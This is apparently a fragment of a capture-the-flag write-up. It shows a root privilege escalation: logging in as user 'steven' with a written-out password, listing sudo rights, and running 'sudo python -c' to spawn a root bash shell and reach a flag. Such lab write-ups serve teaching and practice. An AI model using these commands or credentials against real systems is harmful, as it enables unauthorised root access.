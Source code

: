     The user Steven has python root access. This led to a root privilege escalation.

    Exploit:

    ```   
    su steven
    Password: pink84
    sudo -l  
    ```
    
    ![8](/Images/1/8.png)

    Steven has the privilege to run python language as a root user

    
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    

    ![9](/Images/1/9.png)

     **Flag4**

    ![10](/Images/1/10.png)
